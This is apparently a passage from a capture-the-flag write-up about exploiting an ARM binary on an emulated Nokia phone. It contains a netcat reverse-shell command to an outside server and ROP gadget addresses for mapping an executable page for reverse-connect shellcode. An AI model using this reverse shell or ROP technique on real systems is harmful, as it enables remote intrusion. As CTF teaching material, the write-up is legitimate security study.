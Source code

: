 Now that we control PC challenge is solved right?

Actually was not so easy. Even if it was a nokia phone, in reality, it was a binary running on a Linux distro. So it had NX bit and ASLR enable. The binary was not PIE.

When I usually exploit a no PIE binary with ASLR and NX bit, I write a ropchain that leak something from the `.got` and then read again on top of the stack for a second stage rop that uses `libc`. But this time I did not have a connection to the binary. So was very hard to implement a second stage sent later.

The phone had Internet access and also `nc` installed. So the plan was to execute:

```c
system("nc myserver 9999 -e /bin/bash");
```

`system` was not in the .got so I need to do some computation from a value in the got to get the address for `system`. 
This stuff is hard while ropping, so the exploitation plan was slightly different: Let's map some executable address and write a shellcode that does a reverse connection.

So, I collected a few gadgets and built the ropachain that execute a `mmap` on an address the I can choose. Permissions for this new page are of course `RWX`.

```python
# 0x0001275e : ldr r3, [r5, #0x20] ; cmp r3, r4 ; bne #0x12760 ; ldrd r4, r5, [sp] ; add sp, #8 ; pop {r6, pc}
r3load = 0x0001275e
#0x000128fe : pop {r5, pc}
r5pop = 0x000128fe
#0x000118c6 : pop {r4, pc}
r4pop = 0x000118c6
#0x000172a6 : pop {r2, r3, r4, pc}
r234pop = 0x000172a6
#0x00016c12 : pop {r1, r4, pc}
r14pop = 0x00016c12
#0x00015c24 : pop {r0, r3, pc}
r03pop = 0x00015c24
#0x00012b4e : pop {r2, pc}
r2pop = 0x00012b4e
#0x000111c4 : pop {r3, pc} not thumb
r3popnothumb = 0x000111c4
#0x00011f52 : blx r4
blxr4 = 0x00011f52
#       void *mmap(void *addr, size_t len, int prot, int flags, int fildes, off_t off);
mmap = 0x00011240
mmap = 0x00013E0C +1
memcpy = 0x00011410
memcpy_got = 0x000320C0
#0x0001fe36 : add r3, sp, #0x2b8
addr3sp = 0x0001fe36

#0x000176c0 : add r0, sp, #0x1a0 ; movs r1, r0 ; bx lr
#0x000122c0 : ldm.w ip, {r5, sb, sl, lr} ; add sp, #0x10 ; pop {r4, pc}
ctrlr = 0x000122c0
#0x00014b5a : ldr lr, [sp], #4 ; b.w #0x1263e
setlrjmpr3 = 0x00014b5a
"""
Register state when we take control of PC
r0             0x0                 0
r1             0x38024             229412
r2             0x35a70             219760
r3             0x35a70             219760
r4             0x61716161          1634820449
r5             0x61726161          1634885985
r6             0x61736161          1634951521
r7             0x61746161          1635017057
```